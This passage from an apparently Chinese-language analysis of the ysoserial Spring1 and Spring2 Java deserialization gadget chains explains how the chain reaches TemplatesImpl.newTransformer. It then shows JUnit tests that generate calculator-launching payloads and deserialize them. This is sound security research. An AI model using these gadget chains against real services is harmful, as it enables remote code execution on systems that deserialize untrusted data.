 经过一系列判断，最后会在 `this.advised.targetSource.getTarget()`  对象上调用 method，根据 paylaod 生成代码，这里的 target 为 `TemplatesImpl`，method 为 `newTransformer`，最终触发恶意代码执行

# 测试

```java
@Test
public void testSpring1() throws Exception {
    // mkdir -p /tmp/ysoserial
    // java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Spring1 "open /Applications/Calculator.app" > /tmp/ysoserial/spring1.class
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(new File("/tmp/ysoserial/spring1.class")));
    ois.readObject();
}

@Test
public void testSpring2() throws Exception {
    // mkdir -p /tmp/ysoserial
    // java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Spring2 "open /Applications/Calculator.app" > /tmp/ysoserial/spring2.class
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(new File("/tmp/ysoserial/spring2.class")));
    ois.readObject();
}
```
